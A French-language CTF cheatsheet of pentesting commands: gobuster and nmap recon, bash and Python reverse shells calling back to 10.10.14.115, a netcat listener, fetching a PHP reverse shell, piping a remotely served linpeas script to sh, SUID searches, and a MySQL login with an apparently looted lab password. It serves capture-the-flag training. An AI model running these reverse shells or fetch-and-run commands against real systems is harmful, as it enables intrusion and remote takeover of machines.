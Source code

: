 
---
title: "Mémo Commandes CTF"
date: 2025-10-08
draft: false
tags: ["pentesting", "cheatsheet"]
---

## 📁 Infrastructure
```
ctf/
├── 02_challenges/
└── 03_tools/
    └── SecLists/
```

---

## 🔍 Reconnaissance

### Gobuster - Énumération de répertoires
```bash
# Recherche de dossiers et fichiers web
gobuster dir -w directory-list-2.3-small.txt -u http://url/ -x php,html,js
```
- `dir` : mode énumération de répertoires
- `-w` : wordlist à utiliser
- `-u` : URL cible
- `-x` : extensions de fichiers à tester

### Gobuster - Énumération de vhosts
```bash
# Recherche de sous-domaines virtuels
gobuster vhost -w ~/ctf/03_tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt \
               -u http://url \
               --append-domain
```
- `vhost` : mode virtual host
- `--append-domain` : ajoute le domaine de base aux sous-domaines testés

### Nmap - Scan de ports
```bash
# Scan complet avec détection de services
nmap -A url

# Scan avancé sans ping
nmap -Pn -sV -sS -sC -O url
```
- `-A` : détection OS, version, scripts, traceroute
- `-Pn` : pas de ping (utile si firewall)
- `-sV` : détection de version des services
- `-sS` : SYN scan (furtif)
- `-sC` : scripts par défaut
- `-O` : détection de l'OS

---

## 💣 Exploitation

### Netcat - Listener
```bash
# Écoute pour reverse shell
nc -lvnp 4444
```
- `-l` : mode écoute (listen)
- `-v` : mode verbeux
- `-n` : pas de résolution DNS
- `-p` : port d'écoute

### Reverse Shell - Bash
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.115/4444 0>&1"
```
- `-i` : shell interactif
- `>&` : redirige stdout et stderr
- `0>&1` : redirige stdin vers stdout

### Reverse Shell - Python
```bash
export RHOST="10.10.14.115";export RPORT=9001;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
- `pty.spawn()` : spawne un pseudo-terminal
- `os.dup2()` : duplique les descripteurs de fichiers

### Reverse Shell - php
https://github.com/pentestmonkey/php-reverse-shell
wget https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

### Stabilisation du Shell

**Méthode Python :**
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

**Méthode Script :**
```bash
script /dev/null -c bash
```
- `script` : enregistre une session terminal (ici vers /dev/null)

### SearchSploit - Recherche d'exploits

**Installation :**
```bash
sudo git clone https://gitlab.com/exploit-database/exploitdb.git
sudo ln -sf /home/wanako/ctf/03_tools/exploitdb/searchsploit /usr/local/bin/searchsploit
```

**Utilisation :**
```bash
searchsploit Apache 2.x
```
📖 [Guide SearchSploit](https://medium.com/@redfanatic7/discover-exploits-easily-and-quickly-with-searchsploit-4f77da58fe42)

---

## ⬆️ Escalade de Privilèges

### Recherche de fichiers par groupe
```bash
find / -group sysadm 2>/dev/null
```
- `-group` : filtre par groupe
- `2>/dev/null` : masque les erreurs

### Recherche de binaires SUID
```bash
find / -type f -perm -4000 -user root 2>/dev/null
```
- `-type f` : uniquement les fichiers
- `-perm -4000` : bit SUID activé
- `-user root` : appartenant à root

### LinPEAS - Audit automatisé

**Sur ta machine (serveur) :**
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
python -m http.server 8080
```

**Sur la cible :**
```bash
curl http://10.10.14.115:8080/linpeas.sh | sh
```

---

## 🛠️ Outils Divers

### Docker
```bash
# Build une image
docker build -t docker-image .

# Run avec volume monté
docker run -it -v $(pwd):/code docker-image
```
- `-t` : nom du tag
- `-v` : monte un volume (partage de fichiers)

### Extraction TAR
```bash
tar xvf backrest_backup.tar.gz
```
- `x` : extract
- `v` : verbose
- `f` : file

### SSH Port Forwarding
```bash
ssh -L 9898:127.0.0.1:9898 gael@10.10.11.74
```
- `-L` : forward local
- `9898:127.0.0.1:9898` : port_local:ip_distant:port_distant

### Recherche de fichiers
```bash
find / -name "hibernate.cfg.xml" 2>/dev/null
```
- `-name` : recherche par nom exact

### MySQL
```bash
mysql -u roundcube -pRCDBPass2025 roundcube -e "select * from users"
```
- `-u` : username
- `-p` : password (collé sans espace)
- `-e` : exécute une commande SQL

---

## 📚 Ressources

- **SecLists** : `~/ctf/03_tools/SecLists/`
- **ExploitDB** : `~/ctf/03_tools/exploitdb/`

